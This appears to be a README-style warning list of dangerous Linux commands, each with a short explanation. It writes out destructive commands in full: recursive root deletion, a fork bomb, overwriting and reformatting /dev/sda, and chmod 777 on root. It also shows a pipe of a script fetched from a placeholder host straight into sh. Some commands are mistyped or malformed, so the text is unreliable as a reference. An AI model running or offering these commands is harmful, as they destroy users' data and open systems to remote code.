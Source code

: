 ## Recursive Deletion
- This is one of the scariest commands. When you run this command, it deletes everything in the root directory forcibly and recursively. As a result, all of your directories and subdirectories will be deleted, and all of your data will be lost.

      sudo rm -rf --no-preserve-root

## Move everything to BlackHole
 - Everything that is moved to this location is destroyed.
As a result, if you accidentally move your data to this folder, it will not be recovered

        sudo find / -type f -exec mv /dev/null {} +

        or

        sudo mv -rf / /dev/null

## The fork bomb 🍴💣

 - This is my personal best, a simple bash recursive function that, when executed, creates copies of itself, which in turn creates another set of copies of itself. This takes up CPU time and memory. As a result, it loops until the system freezes.

       :(){:|:&};:

 - Fortunately, you can defend against this attack by limiting the number of processes run by users to around 4000.

You can accomplish this by issuing the following command:

    ulimit -S -u 4000

## Overwrite the hard drive ✍️💿

- This command writes raw data (command output) to the specified partition. This causes data loss on the hard drive or specified partition.

      sudo command > /dev/sda

## Blindly download and execute malicious script ☠️📜

- Wget and curl are useful Linux commands for retrieving and downloading files from the internet. However, if we blindly download and execute a malicious script, these commands can be dangerous.

      wget http://malicius_source_url -0- | sh

## Breach the System 🔓

- This command does not physically affect your system in the same way that the other commands do, but it does provide a security breach on the system.

      sudo chmod -R 777 /

## Unknowingly format a hard drive 🧹📀

- This command will erase your hard drive and recreate it.
These should only be used when you have a backup of your data on the cloud or an external device.

      mkfs.ext3 /dev/sda

## Write random junk to hard drive 🈳📀

- This command will write random garbage data to your hard drive.
Your system will not be recovered as a result of this command.

    sudo dd if=/dev/random of=/dev/sda

## Re-running all the history commands 🔁📜

- Because it executes every command from that you have already executed, the history | sh command can be dangerous. The action may cause system instability and the execution of commands that you do not want to repeat.

      sudo history | sh

## The ^foo^bar Command 📜

- The ^foo^bar command has the potential to be both helpful and dangerous. While the command saves time by allowing you to edit a previously run command and re-run it, it can also cause problems if you don't thoroughly check the changes you make before running it.

- The command changes the first occurrence of foo to bar.

      ^mv^rm -f ~/backups

